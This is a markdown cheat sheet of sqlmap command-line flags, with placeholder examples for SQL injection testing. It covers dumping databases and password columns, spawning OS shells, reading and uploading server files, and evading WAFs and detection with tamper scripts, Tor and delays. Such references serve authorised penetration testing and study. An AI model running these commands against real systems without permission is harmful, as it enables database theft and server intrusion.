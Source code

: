 ```yaml
---

### **Basic Command Structure**
```bash
sqlmap -u <URL> [options]
```

### **Setup and Basics**
- `-u "<URL>"`: Specifies the target URL for SQL injection testing.
- `--data="<POST data>"`: Use this for POST requests; e.g., `--data="username=admin&password=1234"`.
- `--cookie="<cookie string>"`: Adds cookies for sessions or authenticated scans.
- `--level=[1-5]`: Sets the level of tests (default is 1; higher levels add more tests).
- `--risk=[1-3]`: Sets the risk level (default is 1; higher risks may try more intrusive tests).

### **Detection Flags**
- `--batch`: Runs SQLMap without prompts, using default responses.
- `--random-agent`: Randomizes the User-Agent to avoid detection.
- `--tor`: Routes traffic through the TOR network for anonymity.
- `--wizard`: Launches an interactive setup guide (recommended for beginners).
  
### **Testing Injection Points**
- `--technique=<techniques>`: Limits testing to specified SQL injection types (B, E, U, S, T):
  - `B`: Boolean-based blind
  - `E`: Error-based
  - `U`: UNION query-based
  - `S`: Stacked queries
  - `T`: Time-based blind
  ```bash
  sqlmap -u <URL> --technique=BEUS
  ```
  
### **Database Enumeration**
- `--dbs`: Lists all available databases.
  ```bash
  sqlmap -u <URL> --dbs
  ```
- `-D <database_name> --tables`: Lists all tables in a specific database.
  ```bash
  sqlmap -u <URL> -D users --tables
  ```
- `-D <database_name> -T <table_name> --columns`: Lists all columns in a specific table.
  ```bash
  sqlmap -u <URL> -D users -T accounts --columns
  ```

### **Extracting Data**
- `--dump`: Dumps data from all tables and databases.
- `-D <database_name> -T <table_name> --dump`: Dumps data from a specific table.
  ```bash
  sqlmap -u <URL> -D users -T accounts --dump
  ```
- `--dump-all`: Dumps data from all databases (use with caution on larger DBs).

### **Specific Data Extraction**
- `-C "<columns>"`: Specifies columns to extract, used with `--dump`.
  ```bash
  sqlmap -u <URL> -D users -T accounts -C "username,password" --dump
  ```

### **Authentication and Session Management**
- `--auth-type=<type>` and `--auth-cred="<username>:<password>"`: For basic, digest, NTLM, or certificate-based authentication.
- `--proxy=<proxy>`: Uses a proxy for all connections (e.g., `http://localhost:8080`).
- `--proxy-cred="<username>:<password>"`: Adds proxy authentication.
- `--headers="<headers>"`: Adds custom headers, e.g., `--headers="User-Agent: custom"`.
  
### **HTTP Request Methods and Headers**
- `-r <request_file>`: Uses a saved request file (ideal for complex POST requests).
- `--method=<method>`: Specifies HTTP method (e.g., `PUT`, `DELETE`, `HEAD`).
- `--user-agent="<user_agent>"`: Specifies a custom User-Agent string.
- `--referer="<referer>"`: Sets a referer header to mimic common browsing behavior.
  
### **Advanced Techniques and Options**
- `--os-shell`: Attempts to spawn an OS shell (requires high privilege).
- `--sql-shell`: Opens a SQL shell to run custom SQL commands on the database.
- `--file-read=<file_path>`: Attempts to read server files (requires access permissions).
- `--file-write=<local_file>` and `--file-dest=<remote_path>`: Uploads files to the target server.
  
### **Bypassing WAFs and Firewalls**
- `--tamper=<script>`: Uses tamper scripts to modify payloads and bypass filters.
  - Example scripts: `between.py`, `space2comment.py`
  ```bash
  sqlmap -u <URL> --tamper=space2comment.py
  ```
- `--delay=<seconds>`: Adds a delay between requests to avoid detection.
- `--safe-url=<URL>` and `--safe-freq=<freq>`: Re-checks a safe URL between attacks to avoid detection.
  
### **Performance Optimization**
- `--threads=<num>`: Specifies the number of concurrent threads (use cautiously).
- `--time-sec=<seconds>`: Sets the time for time-based injection detection.
  
### **Post-Exploitation**
- `--os-pwn`: Attempts privilege escalation on the operating system.
- `--priv-esc`: Searches for privilege escalation vulnerabilities in the DBMS.
- `--sqlmap-shell`: Provides an interactive SQL shell for advanced commands.

---
```

